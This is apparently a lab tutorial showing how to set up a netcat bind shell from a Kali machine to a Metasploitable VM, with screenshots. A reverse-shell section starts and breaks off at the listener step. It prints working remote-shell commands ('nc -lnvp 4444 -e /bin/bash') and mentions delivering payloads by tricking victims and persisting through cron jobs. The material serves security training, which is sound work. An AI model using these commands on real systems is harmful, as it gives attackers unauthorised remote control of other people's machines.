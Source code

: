 A bind shell is configured on the target host. The host binds to a specific port that's listening for incoming connections from the attacker.

1. Begin by starting a listener on the victim's Metasploitable machine. This step assumes that we have already exploited the target and have access to it.

   - On Metasploitable, run the following command to create a listener on port `4444`.   

      -  `nc -lnvp 4444 -e /bin/bash`

         - `-l`: Tells Ncat to listen for incoming connection.
         - `-n`: Indicates that we are listening for numeric IP addresses.
         - `-v`: Means verbose, which will print more information about the connection.
         - `-p <port number>`: Specifies which port to listen on. 
         - `-e`: Executes a bash shell, specifically, `/bin/bash`.

   - Once the Kali machine connects, you will see a `connect to...(UNKNOWN)...` message.

        ![Bind 1](./Images/BIND_2.png)

2. Next, we'll establish a connection to the listener on the Metasploitable VM.

   - On the Kali machine, run the command to establish a connection to port `4444` using the local IP address of Kali Linux. 

     - `nc 192.168.0.10 4444`


   - This command should successfully connect us on the Kali Machine, giving us remote control of the Metasploitable machine. 

        - Next, demonstrate code execution by typing `ls`, `whoami`, and `pwd` to illustrate that the shell is active on the target Metasploitable machine.

      ![Bind 1](./Images/BIND_1.png)

We have successfully established a connection between the attacker and target machines!


#### Reverse Shell Demonstration

A reverse shell is initiated from the target host back to the attacker, who will have a listener. 

We would use a reverse shell  if we sent the victim a malicious script that tricked them into opening the payload for us, or after or during our initial breach into their system. We could also set up a reverse shell to run as a cron job. 

1. Start a listener on the attacker's Kali machine.

   - On Kali Linux, run the following command:
